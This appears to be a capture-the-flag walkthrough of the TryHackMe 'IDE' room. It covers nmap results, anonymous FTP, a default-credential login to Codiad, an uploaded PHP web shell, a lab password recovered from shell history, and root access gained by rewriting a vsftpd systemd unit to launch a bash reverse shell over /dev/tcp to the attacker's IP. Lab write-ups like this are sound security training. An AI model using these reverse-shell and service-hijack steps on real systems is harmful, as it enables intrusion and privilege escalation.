 ```yaml
---
title: Walkthrough - IDE
published: true
---
```


Enumeration, Public Exploit, PrivEsc, FTP. Easy box for enumeration.

[https://tryhackme.com/room/ide](https://tryhackme.com/room/ide)

* * *

## Notes

```
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.2.127.225
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:be:d3:3c:e8:76:81:ef:47:7e:d0:43:d4:28:14:28 (RSA)
|   256 a8:82:e9:61:e4:bb:61:af:9f:3a:19:3b:64:bc:de:87 (ECDSA)
|_  256 24:46:75:a7:63:39:b6:3c:e9:f1:fc:a4:13:51:63:20 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
62337/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Codiad 2.8.4
|_http-server-header: Apache/2.4.29 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (94%), Linux 3.2 (94%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), Linux 3.1 - 3.2 (92%), Linux 3.2 - 4.9 (92%), Linux 3.7 - 3.10 (92%), QNAP QTS 4.0 - 4.2 (92%)
No exact OS matches for host (test conditions non-ideal).
```

- Codiad 2.8.4
- ``searchsploit``
- After bashing my head against the wall for a few hours going back into the ftp and browsing previous directories can see a file named ``-`` we can get that and check it out

```
Hey john,
I have reset the password as you have asked. Please use the default password to login. 
Also, please take care of the image file ;)
- drac.
```

- can login to the Codiad with ``john:password``
- inside the clouscall folder uploaded pentestmonkey php shell and setup a listener to get a shell.
- running linpeas we find a password in history

```
mysql -u drac -p 'Th3dRaCULa1sR3aL' 
```

we can login to drac with these creds.

* * * 

## What is the user flag?

![0xskar](/assets/ide01.png)

- `sudo -l`

```
User drac may run the following commands on ide:
    (ALL : ALL) /usr/sbin/service vsftpd restart
```

This means I can restart the vsfptd server and this is great news because checking `ps aux` the vsftpd runs as root so we should be able to take advantage of this somehow.

- `find / -type f -name "vsftpd.*" 2>/dev/null`

Because we are restarting the service lets check out this file

- `nano /lib/systemd/system/vsftpd.service`

and edit it to send us a root reverse shell

```
[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.2.127.225/6667 0>&1'


[Install]
WantedBy=multi-user.target
```

- and restart the server after setting up listener

* * * 

## What is the root flag?

![0xskar](/assets/ide02.png)

* * * 


